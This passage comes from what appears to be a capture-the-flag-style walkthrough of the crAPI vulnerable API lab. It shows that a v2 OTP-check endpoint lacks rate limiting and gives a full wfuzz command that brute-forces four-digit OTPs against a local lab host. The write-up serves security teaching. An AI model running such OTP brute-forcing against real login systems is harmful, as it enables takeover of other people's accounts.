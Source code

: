 Interestingly, there are 2 versions:
- `/identity/api/auth/v2/check-otp` (found / guessed)
- `/identity/api/auth/v3/check-otp` (default)

Long story short, `v2` is missing rate-limiting, so we can simply brute-force the OTP.

```
wfuzz -z range,0000-9999 -u http://crapi.local:8888/identity/api/auth/v2/check-otp -d '{"email": "victim@cybersec-research.space","otp":"FUZZ","password":"SSSaaasss!!!"}' -H "Content-Type: application/json" --hw 5 -v
```

![picture 6](/assets/images/40f4d0ff1325746b046c550d080efa6570a367a849d85e6a240b27cec5e8d031.png)  

- Vulnerable Endpoint: `/identity/api/auth/v2/check-otp`

## 3. Excessive Data Exposure

### Challenge 4 - Find an API endpoint that leaks sensitive information of other users

![picture 15](/assets/images/7e2efd2e8cb24bce84b2aa542a6e9136280020c12df47eceb88c73a32357bb1f.png)  
